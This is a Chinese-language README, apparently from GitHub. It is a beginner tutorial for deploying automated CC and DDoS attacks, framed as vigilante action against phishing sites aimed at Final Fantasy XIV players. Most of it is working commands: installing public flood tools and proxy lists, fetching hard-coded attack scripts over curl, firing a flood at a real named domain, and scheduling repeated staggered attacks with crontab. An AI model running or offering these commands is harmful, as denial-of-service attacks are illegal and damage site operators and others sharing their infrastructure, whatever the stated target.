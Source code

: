 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)
- [x] [**NyaaCaster/HydaelynAttack**](https://github.com/NyaaCaster/HydaelynAttack)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
curl -sSf "https://nyaacaster.github.io/Nyaa-Automata/requirements.txt" > requirements.txt
python3 -m pip install --upgrade pip
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4和proxy喂料包
```shell
curl https://raw.githubusercontent.com/TheSpeedX/SOCKS-List/master/socks4.txt -o socks4.txt
curl https://raw.githubusercontent.com/TheSpeedX/SOCKS-List/master/http.txt -o proxy.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
curl -sSf "https://nyaacaster.github.io/Nyaa-Automata/overload_p.py" > overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整

## 安装HydaelynAttack（ddos工具，流量开销大，每轮攻击12M，计费流量的自己规划好开销）
```shell
git clone https://github.com/NyaaCaster/HydaelynAttack.git
```

## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://fwe22.top/ -f ~/proxy.txt -v 5 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行overload
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以

## 如果要单独性执行HydaelynAttack
```shell
python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
```
- HydaelynAttack项目有多个脚本可选，具体看该项目说明


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
*/12 * * * * python3 ~/CC-attack/cc.py -url http://fwe22.top/ -f ~/proxy.txt -v 5 -s 30
*/4 * * * * python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
0 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0 15 30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
